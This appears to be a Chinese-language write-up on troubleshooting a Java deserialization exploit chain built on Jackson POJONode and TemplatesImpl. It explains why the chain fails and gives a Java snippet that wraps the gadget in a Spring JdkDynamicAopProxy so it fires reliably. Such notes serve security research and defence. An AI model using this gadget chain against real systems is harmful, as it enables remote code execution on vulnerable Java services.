 1、序列化过程中报错

![image-20231109165415125](assets/1701668724-d4b641525291fb5b94ee423fd906e649.jpg)

原因：在`ObjectOuptputStream#writeObject0`方法中，如果序列化的类实现了`writeReplace()`方法，将会在序列化过程中调用它进行检查抛出异常中止序列化，我们发现在BaseJsonNode类中实现了这个方法；

解决：序列化时只要不经过 `BaseJsonNode#writeReplace`方法就行（我们可以重写该方法或在父类中删除该方法）

2、反序列化过程中报错

![image-20231109170125568](assets/1701668724-ddfd34726c7dafa6a730a1e182d1b4c4.jpg)

原因：反射 `getDeclaredMethods` 获取到方法的顺序是不确定的，最终导致执行相关getter方法的顺序也是不确定的，造成反序列化链不稳定；当 TemplatesImpl类的 `getStylesheetDOM()` 方法先于 `getOutputProperties()` 方法执行时就会导致空指针异常从而导致调用链报错中断，导致exp利用失败。

解决：利用 JdkDynamicAopProxy类进行封装使链子稳定触发，这里参考文章：[关于java反序列化中jackson链子不稳定问题](https://pankas.top/2023/10/04/%E5%85%B3%E4%BA%8Ejava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADjackson%E9%93%BE%E5%AD%90%E4%B8%8D%E7%A8%B3%E5%AE%9A%E9%97%AE%E9%A2%98/)：

```java
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templatesImpl);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
POJONode jsonNodes = new POJONode(proxyObj);
```
